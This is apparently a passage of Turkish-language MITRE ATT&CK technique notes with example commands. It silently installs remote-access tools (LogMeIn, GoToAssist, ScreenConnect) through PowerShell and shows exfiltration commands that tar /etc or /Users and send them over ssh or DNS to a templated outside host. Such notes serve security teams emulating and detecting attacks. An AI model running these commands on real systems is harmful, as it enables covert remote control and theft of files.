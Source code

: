     ```powershell
    Invoke-WebRequest -OutFile C:\Users\$env:username\Desktop\LogMeInIgnition.msi https://secure.logmein.com/LogMeInIgnition.msi
    $file1 = "C:\Users\" + $env:username + "\Desktop\LogMeInIgnition.msi"
    Start-Process -Wait $file1 /quiet;
    Start-Process 'C:\Program Files (x86)\LogMeIn Ignition\LMIIgnition.exe' "/S"
    ```
    
    ```powershell
    Invoke-WebRequest -OutFile C:\Users\$env:username\Downloads\GoToAssist.exe "https://launch.getgo.com/launcher2/helper?token=e0-FaCddxmtMoX8_cY4czssnTeGvy83ihp8CLREfvwQshiBW0_RcbdoaEp8IA-Qn8wpbKlpGIflS-39gW6RuWRM-XHwtkRVMLBsp5RSKp-a3PBM-Pb1Fliy73EDgoaxr-q83WtXbLKqD7-u3cfDl9gKsymmhdkTGsXcDXir90NqKj92LsN_KpyYwV06lIxsdRekhNZjNwhkWrBa_hG8RQJqWSGk6tkZLVMuMufmn37eC2Cqqiwq5bCGnH5dYiSUUsklSedRLjh4N46qPYT1bAU0qD25ZPr-Kvf4Kzu9bT02q3Yntj02ZA99TxL2-SKzgryizoopBPg4Ilfo5t78UxKTYeEwo4etQECfkCRvenkTRlIHmowdbd88zz7NiccXnbHJZehgs6_-JSVjQIdPTXZbF9T5z44mi4BQYMtZAS3DE86F0C3D4Tcd7fa5F6Ve8rQWt7pvqFCYyiJAailslxOw0LsGyFokoy65tMF980ReP8zhVcTKYP8s8mhGXihUQJQPNk20Sw&downloadTrigger=restart&renameFile=1"
    $file1 = "C:\Users\" + $env:username + "\Downloads\GoToAssist.exe"
    Start-Process $file1 /S;
    ```
    
    ```powershell
    $installer = "C:\Users\$env:username\Downloads\ScreenConnect.msi"
    Invoke-WebRequest -OutFile $installer "https://d1kuyuqowve5id.cloudfront.net/ScreenConnect_21.11.4237.7885_Release.msi"
    msiexec /i $installer /qn
    ```
    

---

## **Exfiltration (TA0010)**

Datalar sızdırılır. Hedefin ağdan veri çalmak için kullanabileceği tekniklerden oluşur. Verileri hedef ağdan çıkarma teknikleri genellikle komuta kontrol kanalları veya alternatif bir kanal üzerinden aktarmayı içerir ve ayrıca aktarıma boyut sınırları koymayı da içerebilir.

1. ****Exfiltration Over Alternative Protocol (T1048)****
    
    Örnek komut:
    
    ```bash
    ssh #{domain} "(cd /etc && tar -zcvf - *)" > ./etc.tar.gz
    ```
    
    ```bash
    tar czpf - /Users/* | openssl des3 -salt -pass #{password} | ssh #{user_name}@#{domain} 'cat > /Users.tar.gz.enc'
    ```
    
    ```powershell
    Import-Module "#{ps_module}"
    Invoke-DNSExfiltrator -i "#{ps_module}" -d #{domain} -p #{password} -doh #{doh} -t #{time} #{encoding}
    ```
    
